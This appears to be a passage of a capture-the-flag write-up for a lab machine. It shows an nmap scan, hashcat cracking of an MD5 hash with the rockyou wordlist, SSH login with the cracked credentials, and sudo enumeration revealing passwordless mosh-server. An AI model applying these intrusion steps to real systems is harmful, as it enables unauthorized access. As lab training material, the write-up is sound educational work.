 ```nmap -sC -sV -p- 10.10.11.48```
![Pasted image 20250621114758.png](../../assets/Pasted-image-20250621114758.png)
---

## Cracking the Password Hash

I saved the hash to a file:

```echo "412DD4759978ACFCC81DEAB01B382403" > pass.txt```

Then ran hashcat against it using the rockyou wordlist:

```hashcat -m 0 -a 0 pass.txt /usr/share/wordlists/rockyou.txt```

Hashcat cracked it quickly, revealing the password:

```underwaterfriends```

---

## Initial Access via SSH

Armed with the username and cracked password, I accessed the machine via SSH:

```ssh svcMosh@10.10.11.48```

After connecting I listed all directories with ls and found the user flag. 

![Pasted image 20250621115645.png](../../assets/Pasted-image-20250621115645.png)
---

## User Enumeration

Once logged in, I ran:

```id```

To confirm the user identity:B

```uid=1002(svcMosh) gid=1002(svcMosh) groups=1002(svcMosh)```

Checking sudo privileges:

```sudo -l```

Output:

```Matching Defaults entries for svcMosh on localhost:  
env_reset, mail_badpass,  
secure_path=/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin:/snap/bin,  
use_pty

User svcMosh may run the following commands on localhost:  
(ALL) NOPASSWD: /usr/bin/mosh-server
```
